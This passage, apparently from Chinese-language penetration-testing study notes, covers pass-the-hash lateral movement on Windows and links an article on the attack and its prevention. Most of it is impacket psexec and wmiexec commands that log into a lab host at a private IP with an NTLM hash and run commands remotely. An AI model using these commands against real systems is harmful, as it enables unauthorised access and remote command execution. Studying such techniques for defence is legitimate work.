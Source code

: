除此之外还有psexec，wmiexec，rpcdump等等，（之后再写）

[PTH(Pass The Hash)哈希传递攻击手法与防范](https://cloud.tencent.com/developer/article/1829649)

### psexec

这里的和上面的那个psexec不一样，这个是impacket套装里的

```
psexec.exe Administrator@192.168.188.100 -hashes 00000000000000000000000000000000:520126a03f5d5a8d836f1c4f34ede7ce
or
psexec.exe Administrator@192.168.188.100 -hashes :520126a03f5d5a8d836f1c4f34ede7ce
```

![image-20220319161231967](README/image-20220319161231967.png)



### wmiexec

```
wmiexec.exe -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100 "ipconfig"

wmiexec.exe -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100
```

![image-20220319160157984](README/image-20220319160157984.png)
